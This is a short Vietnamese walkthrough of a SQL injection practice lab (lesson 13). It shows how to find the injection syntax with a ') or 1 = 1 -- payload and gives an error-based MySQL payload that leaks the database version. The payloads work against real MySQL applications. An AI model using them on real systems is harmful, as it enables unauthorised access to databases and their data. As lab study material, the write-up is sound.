



# Những việc làm được với lesson-13
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-13



Ta sẽ đi tìm cấu trúc của bài này như 2 bài trước mà ta đã tìm bằng cách thử với cấu trúc.
```
or 1 = 1 -- 
```
Ta lần lượt thử với các ghi của ký tự trong truy vấn MYSQL.  Cấu trúc của bài 13 là 
```
') or 1 = 1 --  
```



1. Kiểm tra version 
```
')  and (SELECT 0 FROM (SELECT count(*), CONCAT((@@version), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```



Tương tự bài 11 sau khi có cấu trúc ta có thể sử dụng error-based để có thể truy xuất dữ liệu của DB